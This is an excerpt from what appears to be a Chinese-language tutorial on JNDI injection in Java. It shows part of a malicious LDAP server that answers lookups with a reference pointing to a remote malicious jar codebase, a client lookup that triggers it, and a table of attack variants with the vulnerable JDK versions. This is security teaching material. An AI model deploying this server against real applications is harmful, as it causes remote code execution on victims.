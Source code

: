   ```java
  			e.printStackTrace();
  		}
  	}
  
  	private static class OperationInterceptor extends InMemoryOperationInterceptor {
  
  		@Override
  		public void processSearchResult(InMemoryInterceptedSearchResult result) {
  			String base  = result.getRequest().getBaseDN();
  			Entry  entry = new Entry(base);
  
  			try {
  				// 设置对象的工厂类名
  				String className = "com.anbai.sec.jndi.injection.ReferenceObjectFactory";
  				entry.addAttribute("javaClassName", className);
  				entry.addAttribute("javaFactory", className);
  
  				// 设置远程的恶意引用对象的jar地址
  				entry.addAttribute("javaCodeBase", REMOTE_REFERENCE_JAR);
  
  				// 设置LDAP objectClass
  				entry.addAttribute("objectClass", "javaNamingReference");
  
  				result.sendSearchEntry(entry);
  				result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
  			} catch (Exception e1) {
  				e1.printStackTrace();
  			}
  		}
  
  	}
  }
  ```
  
  client
  
  ```java
  Context ctx = new InitialContext();
  // 获取RMI绑定的恶意ReferenceWrapper对象
  Object obj = ctx.lookup(LDAP_URL);
  System.out.println(obj);
  ```
  
  `ds.add("en=avv",object)`,可以绑定对象了就。
  
  ### 总结
  
  | 攻击类型                              | 适用jdk版本 | 需要条件             |
  | ------------------------------------- | ----------- | -------------------- |
  | JNDI+RMI (Reference Remote Factory)   | <7u21、6u45 | 无                   |
  | JNDI+RMI (Reference Local Factory)    | 任意        | 调用端存在利用链     |
  | JNDI+LDAP (Reference Remote Codebase) | <8u191      | 无                   |
  | JNDI+LDAP (Serialize Object)          | 任意        | 调用端存在反序列化链 |
  